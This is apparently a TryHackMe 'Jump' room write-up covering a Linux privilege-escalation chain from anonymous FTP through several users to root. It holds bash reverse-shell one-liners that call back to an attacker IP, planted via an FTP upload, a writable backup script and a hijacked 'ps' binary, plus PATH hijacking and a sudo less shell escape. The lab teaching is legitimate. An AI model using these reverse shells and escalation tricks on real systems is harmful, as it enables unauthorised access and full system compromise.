

room urL: https://tryhackme.com/room/jump
# Overview

**Jump** is a Linux privilege-escalation challenge built around chaining several smaller weaknesses together.

The full attack chain was:

```
FTP
  ↓
recon_user
  ↓
dev_user
  ↓
monitor_user
  ↓
ops_user
  ↓
root
```

---
# 1. Initial Access → recon_user

## FTP Enumeration

Nmap revealed an FTP service. I connected to it anonymously: 


The FTP server exposed two directories:


`incoming/` was initially empty, while `pub/` contained several files. One of them was `README.txt`:
```
[ recon pipeline ]

All recon jobs must be placed in incoming/.
Files are processed automatically on arrival.
Invalid formats are ignored.
```

This was the important clue.

Files placed in `incoming/` were **automatically processed**, meaning an uploaded file could potentially be executed or otherwise influence the recon pipeline.

## Exploiting the Recon Pipeline

I created a reverse-shell payload:
```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.64/4444 0>&1
```

Then started a listener on my machine:
```bash
nc -lvnp 4444
```

I uploaded the payload through FTP into the `incoming/` directory.

The automated recon pipeline processed the uploaded `.sh` file, causing the reverse shell to connect back to my listener.

---

# 2. recon_user → dev_user

After obtaining a shell as `recon_user`, enumeration showed that the user belonged to the `dev_user` group:
```
uid=1001(recon_user) gid=1001(recon_user) groups=1001(recon_user),1002(dev_user),1005(devops)
```

This immediately made group-writable files interesting.

I searched for writable files across the filesystem while excluding virtual/system directories:
```bash
find / \( -path /proc -o -path /snap \) -prune -o -writable -print 2>/dev/null
```
This finds files/directories the current user can write to while skipping `/proc` and `/snap`.

The critical file was:
```
/opt/dev/backup.sh
```

Its permissions were:
```
-rwxrwxr-x 1 dev_user dev_user ... /opt/dev/backup.sh
```

Because `recon_user` was a member of the `dev_user` group, the script was writable.

The script was part of an automated process running with `dev_user` privileges. Therefore, modifying the script allowed attacker-controlled commands to execute as `dev_user`.

Modified `backup.sh`:
```bash
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.64/5555 0>&1
```

The resulting chain was:
```
recon_user
    ↓
Writable backup.sh
    ↓
backup process executes it as dev_user
    ↓
dev_user shell
```

---

# 3. dev_user → monitor_user

Once `dev_user` was obtained, enumeration revealed:
```
/opt/dev/bin/ps
```
was writable.

Further investigation identified the `healthcheck` process that references `ps`:
```
/usr/local/bin/healthcheck
```

The service runs automatically as `monitor_user`:
```bash
ls -l /usr/local/bin/healthcheck

-rwxr-xr-x 1 monitor_user monitor_user 133 Sep 10 10:42 /usr/local/bin/healthcheck
```

To find what was triggering `healthcheck`, I searched common cron locations and systemd configuration:
```
grep -R "healthcheck" /etc/cron* /var/spool/cron /etc/systemd/system /usr/lib/systemd/system 2>/dev/null
```

This revealed the systemd service and timer responsible for executing it:
```
/etc/systemd/system/healthcheck.service
/etc/systemd/system/healthcheck.timer
```

The service executing the health check used a PATH containing:
```
/opt/dev/bin
/usr/local/bin
/usr/bin
```

Because `/opt/dev/bin` appeared **before** the legitimate system binary locations, a program named `ps` placed there would be found first.

That meant the writable:
```
/opt/dev/bin/ps
```
could replace the expected `/usr/bin/ps`.

I modified `ps` to become a reverse shell:
```
#!/bin/bash
bash -i >& /dev/tcp/192.168.192.64/6666 0>&1
```

Because the health-check process ran as `monitor_user`, the payload resulted in a shell as `monitor_user`.

The attack was:
```
dev_user
    ↓
Writable /opt/dev/bin/ps
    ↓
healthcheck executes "ps"
    ↓
PATH resolves /opt/dev/bin/ps first
    ↓
Malicious ps executes as monitor_user
    ↓
monitor_user shell
```

---

# 4. monitor_user → ops_user

After obtaining `monitor_user`, enumeration revealed:

```
/opt/app/deploy_helper.sh
```

was writable.

The file was owned by `monitor_user`:
```
-rwxr-xr-x monitor_user monitor_user /opt/app/deploy_helper.sh
```

The deployment workflow also contained:
```
/usr/local/bin/deploy.sh
```

The important relationship was that `deploy.sh` used the writable `deploy_helper.sh`.

This created another trusted-script abuse opportunity:
```
monitor_user
    ↓
Writable deploy_helper.sh
    ↓
deploy.sh invokes deploy_helper.sh
    ↓
Commands execute in the deployment context
    ↓
ops_user
```

---

# 5. monitor_user → ops_user via sudo

Enumeration as `monitor_user` also revealed a direct sudo rule:
```
sudo -l
```

returned:
```
User monitor_user may run the following commands on tryhackme-2404:

(ops_user) NOPASSWD: /usr/local/bin/deploy.sh
```

This means `monitor_user` could execute:
```
/usr/local/bin/deploy.sh
```
as `ops_user` without supplying a password.

Since the deployment script's execution flow could be influenced through the writable helper, the sudo permission provided the privilege boundary crossing:
```
monitor_user
    ↓
Writable deployment helper
    ↓
sudo deploy.sh
    ↓
ops_user
```

---

# 6. ops_user → root

Finally, after obtaining `ops_user`, the remaining privilege boundary was exposed through `sudo`:
```bash
sudo -l
```

which showed:
```text
(root) NOPASSWD: /usr/bin/less
```

This allowed `ops_user` to execute `less` as `root`:
```bash
sudo /usr/bin/less /etc/hosts
```

`less` is normally a pager for viewing files, but it also provides command execution functionality through `!`.

Inside `less`:
```text
!/bin/bash
```
This spawns a shell inheriting `less`'s root privileges.

The attack concept is:
```text
ops_user
    ↓
sudo /usr/bin/less
    ↓
less runs as root
    ↓
!/bin/bash
    ↓
root shell
```

### Concept: Shell escapes from privileged programs

Many programs that appear harmless can execute external commands.

Examples worth remembering include:
```
less
vim
man
awk
find
```

When such a program is allowed through `sudo`, check whether it provides a shell escape or another mechanism for executing arbitrary commands.

---

# Key Techniques

## 1. Writable upload → execution

An attacker-controlled file is placed somewhere writable and subsequently processed by a privileged or different user.

**Look for:** upload directories, cron jobs, systemd services, file-processing scripts.

---

## 2. Group-based file permissions

A user may not own a file but can still modify it through group membership.

Check:

```
id
ls -la <file>
```

Compare the user's groups with the file's group ownership.

---

## 3. Writable privileged scripts

If a script runs automatically as another user and you can modify it, you can potentially execute commands as that user.

---

## 4. PATH hijacking

A privileged process executes a command using its name rather than its absolute path, while an attacker controls an earlier directory in `$PATH`.

---

## 5. Writable script dependencies

A privileged script may call another script that is writable by the attacker.

Always follow the complete execution chain.

---

## 6. sudo abuse

When `sudo -l` gives access to a specific program, analyze the program's capabilities rather than assuming the permission is harmless.

Especially investigate programs that can:

- execute commands
- load files/configuration
- invoke other programs
- execute scripts
- provide shell escapes

---

# Enumeration Workflow

For each newly obtained user:
```
1. id
   ↓
2. Check groups
   ↓
3. Find writable files/directories
   ↓
4. Inspect interesting scripts/services
   ↓
5. Identify what executes them
   ↓
6. Determine which user executes them
   ↓
7. Look for sudo permissions
   ↓
8. Follow dependencies and execution paths
```
